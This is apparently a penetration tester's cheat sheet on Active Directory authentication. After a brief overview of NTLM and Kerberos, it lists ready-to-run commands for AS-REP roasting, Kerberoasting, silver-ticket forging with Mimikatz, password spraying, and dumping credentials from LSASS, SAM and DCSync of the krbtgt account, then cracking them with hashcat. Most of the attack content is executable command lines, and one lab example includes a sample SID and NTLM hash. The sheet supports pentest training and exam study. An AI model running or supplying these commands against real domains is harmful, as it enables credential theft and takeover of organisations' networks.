 # Authentication

## NTLM

<figure><img src="../../../.gitbook/assets/image (140).png" alt=""><figcaption></figcaption></figure>

{% embed url="https://learn.microsoft.com/en-us/archive/blogs/chiranth/ntlm-want-to-know-how-it-works" %}

A new security group needs to be introduced when talking about trees and forests. The **Enterprise Admins** group will grant a user administrative privileges over all of an enterprise's domains. Each domain would still have its Domain Admins with administrator privileges over their single domains and the Enterprise Admins who can control everything in the enterprise.

When using Windows domains, all credentials are stored in the Domain Controllers. Whenever a user tries to authenticate to a service using domain credentials, the service will need to ask the Domain Controller to verify if they are correct. Two protocols can be used for network authentication in windows domains:

* **Kerberos:** Used by any recent version of Windows. This is the default protocol in any recent domain.
* **NetNTLM:** Legacy authentication protocol kept for compatibility purposes.

## Kerberos

{% content-ref url="../../../enumeration/ports/88-kerberos.md" %}
[88-kerberos.md](../../../enumeration/ports/88-kerberos.md)
{% endcontent-ref %}

{% code overflow="wrap" fullWidth="true" %}
```powershell
https://en.wikipedia.org/wiki/Key_distribution_center
1 - AS-REQ containing timestamp + creds hash sent to the DC
2 - DC, acting as KDC, decrypt timestamp and hash. If successful, replies with AS-REP containing session key and TGT.
3 - When client wants to access a service, sends TGS-REQ with session key, resource name and encrypted TGT to the KDC.
4 - If the service exists, KDC decrypts the TGT and verifies timestamp, username and IP address. If succeeds, it sends TGS-REP containing session key, service name and service ticket.
5 - Client wants to connect to an app and it sends AP-REQ with session key and service ticket. The application server decrypts the service ticket.

# AS-REP Roasting
https://social.technet.microsoft.com/wiki/contents/articles/23559.kerberos-pre-authentication-why-it-should-not-be-disabled.aspx
Get-DomainUser -PreauthNotRequired
impacket-GetNPUsers -dc-ip 192.168.0.50 -request -outputfile hashes.asreproast domain.com/$USER
hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
.\Rubeus.exe asreproast /nowrap # does not need creds if we run it as authenticated domain user
# PERSISTENCE: if GenericAll or GenericWrite, we could modify a user to disable Kerberos preauth

# Kerberoasting (target SPNs - cracking TGS-REP hash)
.\Rubeus.exe kerberoast /outfile:hashes.kerberoast # does not need creds if we run it as authenticated domain user
hashcat -m 13100 hashes.kerberoast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
# NOTE: better for user accounts since computer/managed service accounts and krbtgt have very long and randomly generated passwords
# PERSISTENCE: if GenericAll or GenericWrite, we could set an SPN for the user, make it kerberoastable, crack the hash and then delete SPN

# Fix KRB_AP_ERR_SKEW (Clock skew too great)
https://en.wikipedia.org/wiki/Ntpdate
https://en.wikipedia.org/wiki/Rdate

# Silver Tickets (forge our own service ticket if user/group permissions in the service ticket are not verified by the app)
To create a silver ticket we need:
• SPN password hash (e.g. via cached passwords)
• Domain SID (whoami /user, discard last 4 digits which are the RID)
• Target SPN
iwr -UseDefaultCredentials http://web01 # test at first HTTP SPN to see if our user has access denied
mimikatz # kerberos::golden /sid:$SID /domain:domain.com /ptt /target:web01.domain.com /service:http /rc4:$NTLM_SERVICE_HASH /user:myuser
klist
iwr -UseDefaultCredentials http://web01
# We could create tickets for domain users that do not exist
# Mitigation: security patch to update the PAC structure to not be able to forge tikets for non-existent domain users
https://support.microsoft.com/en-gb/topic/kb5008380-authentication-updates-cve-2021-42287-9dafac11-e0d0-4cb8-959a-143bd0201041
```
{% endcode %}

[https://docs.microsoft.com/en-us/training/modules/implement-manage-active-directory-](https://docs.microsoft.com/en-us/training/modules/implement-manage-active-directory-)certificate-services/

## Password Attacks

{% code overflow="wrap" fullWidth="true" %}
```powershell
net accounts
https://web.archive.org/web/20220225190046/https://github.com/ZilentJack/Spray-Passwords/blob/master/Spray-Passwords.ps1
.\Spray-Passwords.ps1 -Pass Nexus123! -Admin
crackmapexec smb 192.168.0.202 -u users.txt -p 'Pass123!' -d domain.com -- continue-on-success
.\kerbrute_windows_amd64.exe passwordspray -d domain.com .\usernames.txt "Pass123!" # if network error, make sure encoding of .txt is ANSI
```
{% endcode %}

## Mimikatz

{% code overflow="wrap" %}
```bash
https://github.com/gentilkiwi/mimikatz
https://tools.thehacker.recipes/mimikatz/modules/lsadump/lsa
https://adsecurity.org/?page_id=1821#SEKURLSAPth
https://github.com/PowerShellMafia/PowerSploit/blob/master/CodeExecution/Invoke-ReflectivePEInjection.ps1
https://fuzzysecurity.com/tutorials/18.html
https://github.com/clymb3r/PowerShell/blob/master/Invoke-Mimikatz/Invoke-Mimikatz.ps1

# If it misbehaves, try
.\mimikatz.exe "module::command" "module::command" "module::command" "exit"

privilege::debug
sekurlsa::logonpasswords # dump the credentials of all logged-on users
sekurlsa::tickets #user's tickets stored in memory / if we find TGT, better as it allows access any service
Invoke-Mimikatz -DumpCreds

# LSASS
lsadump::secrets
lsadump::sam # get local admin hash
lsadump::lsa /patch # dump hashes from memory by asking the LSA server, kinda like querying where the passwords are stored for users regardless of logged in or not
lsadump::cache
# Get domain admin hash whcih would work for psexec
lsadump::dcsync /user:domain\krbtgt /domain:lab.local
# VAULT
vault::creds
vault::list

# ADCS - export certificates with private keys
crypto::capi
crypto::cng
```
{% endcode %}

## Tickets

In general, we need to collect the following three pieces of information to create a silver ticket:

* SPN password hash
* Domain SID
* Target SPN

{% code overflow="wrap" %}
```powershell
# Check we cannot access the resource 
iwr -UseDefaultCredentials http://web04
# Now let's gather the SPN/service password hash
mimikatz # privilege::debug
mimikatz # sekurlsa::logonpasswords
# And the domain SID that is the user SID minus the last digits (RID)
whoami /user
# Then we forge the ticket
mimikatz # kerberos::golden /sid:S-1-5-21-1987370270-658905905-1781884369 /domain:corp.com /ptt /target:web04.corp.com /service:http /rc4:4d28cf5252d39971419580a51484ca09 /user:jeffadmin
We need to provide the domain SID (/sid:), domain name (/domain:), and the target where the SPN runs (/target:). We also need to include the SPN protocol (/service:), NTLM hash of the SPN (/rc4:), and the /ptt option, which allows us to inject the forged ticket into the memory of the machine we execute the command on.
Finally, we must enter an existing domain user for /user:. This user will be set in the forged ticket. For this example, we'll use jeffadmin. However, we could also use any other domain user since we can set the permissions and groups ourselves.
PS C:\Tools> klist
# Now we could access the resource
PS C:\Tools> iwr -UseDefaultCredentials http://web04


# Requesting a Service Ticket
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList 'HTTP/CorpWebServer.corp.com'
klist #display all cached Kerberos tickets for the current user
(mimikatz) kerberos::list /export #download the service ticket (DO NOT PAY ATTENTION TO AES256 ENCRYPTION OR TGS$18$)
# Crack the ticket
kirbi2hashcat.py *.kirbi
hashcat -m 13100 hashes rockyou.txt --potfile-disable #krb5tgs$23$ format
python /usr/share/kerberoast/tgsrepcrack.py wordlist.txt ticket.kirbi
# Invoke-Kerberoast script instead of Mimikatz, autom. enum all SPNs, request service tickets and export them
https://github.com/EmpireProject/Empire/blob/master/data/module_source/credentials/Invoke-Kerberoast.ps1
# Extract all accounts in the SPN
setspn -T medin -Q ​ */*
"HTTP/web1.testlab.local","HTTP/web2.testlab.local" | Get-DomainSPNTicket
Invoke-Kerberoast -OutputFormat Hashcat | fl
hashcat -m 13100 -​a 0 hash.txt $wordlist --force
```
{% endcode %}

## Slow Password Guessing to avoid lockouts

<pre class="language-powershell" data-overflow="wrap"><code class="lang-powershell">net accounts
<strong>https://web.archive.org/web/20220225190046/https://github.com/ZilentJack/Spray-Passwords/blob/master/Spray-Passwords.ps1
</strong>.\Spray-Passwords.ps1 -Pass Qwerty09! -Admins
PS C:\> .\Spray-Passwords.ps1 -File .\passwords.txt -Verbose
</code></pre>
